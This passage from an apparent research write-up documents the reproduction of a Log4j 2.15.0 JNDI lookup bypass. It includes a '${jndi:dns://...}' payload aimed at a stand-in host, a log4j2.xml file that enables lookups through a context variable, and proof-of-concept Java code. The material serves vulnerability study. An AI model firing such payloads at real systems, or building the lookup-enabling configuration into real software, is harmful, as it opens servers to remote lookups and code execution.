 After that we compiled it and ran it:

{: .no-stripes}
```bash
user@ubuntu:~/poc$ ./jdk1.8.0_171/bin/javac -cp apache-log4j-2.15.0-bin/log4j-core-2.15.0.jar:apache-log4j-2.15.0-bin/log4j-api-2.15.0.jar POC.java 
user@ubuntu:~/poc$ ./jdk1.8.0_171/bin/java -cp apache-log4j-2.15.0-bin/log4j-core-2.15.0.jar:apache-log4j-2.15.0-bin/log4j-api-2.15.0.jar:. POC '${jndi:dns://test.example.com}'
Using payload: ${jndi:dns://test.example.com}
15:06:32.118 [main] ERROR POC - ${jndi:dns://test.example.com}
```

While we were not expecting to be seeing a DNS request in `wireshark`, there had to be at least an error indicating that our protocol and host were wrong, but there was nothing there.

Our assumption was wrong – there had to be more changes that we were not aware of. We tried with `log4j2.formatMsgNoLookups=true`, as this was mentioned in the patch, but it didn’t change anything. There was no DNS or TCP outbound or any additional errors. Because of this we went back to the documentation and stumbled on this:

Pattern layout no longer enables lookups within message text by default for cleaner API boundaries and reduced formatting overhead. The old `log4j2.formatMsgNoLookups` which enabled this behaviour has been removed as well as the `nolookups` message pattern converter option. The old behaviour can be enabled on a per-pattern basis using `%m{lookups}`.

A quick check with meld to `/log4j-core/src/main/java/org/apache/logging/log4j/core/pattern/MessagePatternConverter.java` revealed that there no longer was a flag that we can enable for lookups unless the option was included in the config file.

With this in mind, we had to create a config file with a custom pattern and use it:

* Create a log4j2.xml configuration file in the same folder as the POC code.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="WARN">
    <Appenders>
        <Console name="Console" target="SYSTEM_OUT">
        <PatternLayout pattern="%d{HH:mm:ss.SSS} - $${ctx:myContext} - %msg%n" />
        </Console>
    </Appenders>
    <Loggers>
        <Root level="error">
            <AppenderRef ref="Console"/>
        </Root>
    </Loggers>
</Configuration>
```

* Modify the POC code to use the new context variable:

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.ThreadContext;
public class POC {
    private static final Logger logger = LogManager.getLogger(POC.class);
    public static void main(String[] args) {
    if (args.length > 0){
        System.out.println("Using payload: " + args[0]);
        ThreadContext.put("myContext", args[0]);
        logger.error(args[0]);
    } else {
        System.out.println("No payload provided...");
    }
    }
}
```
